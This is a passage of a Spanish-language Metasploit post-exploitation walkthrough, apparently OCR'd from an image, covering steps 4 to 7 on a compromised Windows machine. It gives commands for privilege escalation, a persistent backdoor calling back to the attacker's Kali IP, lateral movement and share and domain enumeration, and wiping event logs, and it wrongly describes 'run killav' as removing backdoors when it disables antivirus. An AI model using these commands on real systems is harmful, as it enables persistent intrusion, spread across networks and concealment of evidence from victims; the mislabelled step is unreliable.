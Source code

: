 #### 4️⃣ Escalada de privilegios (si eres usuario común)

Ejecuta:

```bash
getsystem
```

Si falla, puedes buscar exploits locales con:

```bash
background
use post/multi/recon/local_exploit_suggester
set SESSION <id_de_la_sesion>
run
```

---

#### 5️⃣ Persistencia: volver a entrar

Crea un backdoor para que se conecte cada vez que inicie sesión:

```bash
run persistence -X -i 5 -p 4444 -r <tu_IP_Kali>
```

Esto instala un payload que se ejecuta cada vez que Windows inicia sesión.

---

#### 6️⃣ Movimiento lateral

Si estás en una red con otras máquinas:

```bash
arp               # Muestra IPs vecinas
run post/windows/gather/enum_shares
run post/windows/gather/enum_domain
```

Puedes usar las credenciales para conectarte a otras máquinas por SMB o RDP.

---

#### 7️⃣ Limpieza de rastros

Para borrar logs de eventos o comandos usados:

```bash
clearev
```

Y eliminar backdoors creados:

```bash
run killav
```

---
